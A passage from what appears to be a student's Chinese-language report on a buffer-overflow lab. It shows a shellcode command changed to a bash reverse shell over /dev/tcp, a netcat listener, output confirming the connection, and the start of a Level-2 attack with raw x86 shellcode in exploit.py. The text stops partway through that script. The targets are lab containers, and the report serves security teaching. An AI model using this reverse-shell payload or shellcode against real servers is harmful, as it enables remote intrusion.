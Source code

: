 > **Reverse shell.** Please modify the command string in your shellcode, so you can get a reverse shell on the target
> server. Please include screenshots and explanation in your lab report.

根据 Task 要求，我们将 shellcode 改为 reverse shell，即第 10 行改为

```python
"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1           *"
```

启动新 terminal ，执行监听

```shell
nc -lnv 9090
```

在原来的 terminal 中再次执行

```shell
./exploit.py
cat badfile | nc 10.9.0.5 9090
```

可以看到获得了权限

```shell
$ nc -lnv 9090
Listening on 0.0.0.0 9090
Connection received on 10.9.0.5 60722
```

## Task 3: Level-2 Attack

本 task 重点在于处理不知道大小的 buffer。

解决方法很简单：不知道 offset，那就挨个试一遍。

同样的，我们先 `echo hello`

```shell
$ echo hello | nc 10.9.0.6 9090
^C
```

```plaintext
server-2-10.9.0.6 | Got a connection from 10.9.0.1
server-2-10.9.0.6 | Starting stack
server-2-10.9.0.6 | Input size: 6
server-2-10.9.0.6 | Buffer's address inside bof ():    0xffffd708
server-2-10.9.0.6 | ==== Returned Properly ====
```

修改 `exploit.py`

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "_C*"
    # You can modify the following command string to run any command.
    # You can even run multiple commands. When you change the string,
    # make sure that the position of the * at the end doesn't change.
    # The code above will change the byte at this position to zero,
    # so the command string ends here.
    # You can delete/add spaces, if needed, to keep the position the same.
    # The * in this line serves as the position marker         *
```